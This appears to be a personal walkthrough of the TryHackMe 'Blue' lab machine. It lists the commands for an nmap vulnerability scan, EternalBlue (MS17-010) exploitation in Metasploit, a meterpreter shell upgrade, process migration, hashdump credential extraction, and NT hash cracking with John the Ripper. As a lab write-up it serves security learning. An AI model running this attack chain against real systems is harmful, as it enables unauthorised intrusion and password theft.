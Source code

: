 # Blue Machine Walkthrough
#pentest #pentest/tryhackme

## First we start with the classic nmap
`nmap -sV --script vuln <IP>`

## Here we find that the machine is vulnerable to:
`ms17-010`

## We start metasploit
`msfdb run`

## Let’s find out how to exploit this bug:
`search ms17_010` -> `exploit/windows/smb/ms17_010_eternalblue`

## Let’s use this exploit
`use exploit/windows/smb/ms17_010_eternalblue`

## Cool, now we have to see which options to fill and set them:
`show options` -> `set rhosts <IP>`

## And run the exploit:
`run`

## Now that we have the windows shell let’s put it in the background and try to get the meterpreter shell setup
`background` 
-> `search shell_to_meterpreter` 
-> `use post/multi/manage/shell_to_meterpreter` 
-> `set session <windows_session_number>`
-> `run`

## Now we have a better shell, let’s connect to it
`sessions` -> `sessions -i <meterpreter_session_number>`

## Inside our meterpreter shell we can list our processes and try to migrate to a better one
`ps`
-> `migrate <pid_of_spool_service>`

## Awesome, now that we are privileged we can fetch the credentials 
`hashdump`

## And use john the ripper to crack them
`sudo john <credentials_file> --format=NT --wordlist=/usr/share/wordlists/rockyou.txt`
